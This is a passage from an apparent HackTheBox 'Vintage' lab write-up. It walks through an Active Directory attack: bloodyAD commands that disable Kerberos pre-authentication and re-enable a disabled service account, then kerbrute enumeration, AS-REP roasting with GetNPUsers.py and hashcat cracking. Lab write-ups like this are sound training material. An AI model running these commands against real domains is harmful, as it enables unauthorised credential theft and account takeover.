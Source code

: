 After analysis, the `SVC` accounts do not provide direct attack paths in BloodHound. Therefore, instead of Force Changing their Passwords, it is more effective to attempt password spraying with the retrieved credentials to identify other attack paths.

##### AS-REP hashes

Starting adding the DONT_REQ_PREAUTH attribute to enable AS-REP Roasting
```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
```
![](https://cdn-images-1.medium.com/max/1000/1*VNGh8l9JkAUbtdEMAEy91w.png)

Then Requesting user accounts hashes using
```bash
kerbrute_linux_amd64 userenum --dc 10.10.11.45 -d vintage.htb users.list
```
![](https://cdn-images-1.medium.com/max/1000/1*Y9mSjuuE1U29AuSfLJW4FA.png)
OR
```bash
GetNPUsers.py -request -outputfile hashes.txt -format hashcat -usersfile users.list vintage.htb/
```
![](https://cdn-images-1.medium.com/max/1000/1*7JbBkSf2QxlQ6c8BbOL19A.png)
Start cracking the obtained hashes with hashcat
```bash
hashcat hashes.txt /usr/share/wordlists/rockyou.txt --force
```
Unfortunately hashcat finished without cracking any of the both obtained hashes

![](https://cdn-images-1.medium.com/max/1000/1*71lzsZEj1JLy9Iy3B807GQ.png)

Hashes for `SVC_ARK` and `SVC_LDAP` were obtained, but `SVC_SQL` was missing.

Checking BloodHound revealed that `SVC_SQL` was disabled.

![](https://cdn-images-1.medium.com/max/1000/1*EcC-iUlxNKlheSCaUglBUw.png)

To enable the `SVC_SQL` account
```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
```
![](https://cdn-images-1.medium.com/max/1000/1*VPZ8g5AilsTk1TDMkCeDeg.png)

Reattempting AS-REP Roasting Once the `SVC_SQL` account was enabled, hashes were successfully retrieved

![](https://cdn-images-1.medium.com/max/1000/1*4waKp80ygSMCLllq21th6g.png)

Hash has successfully cracked
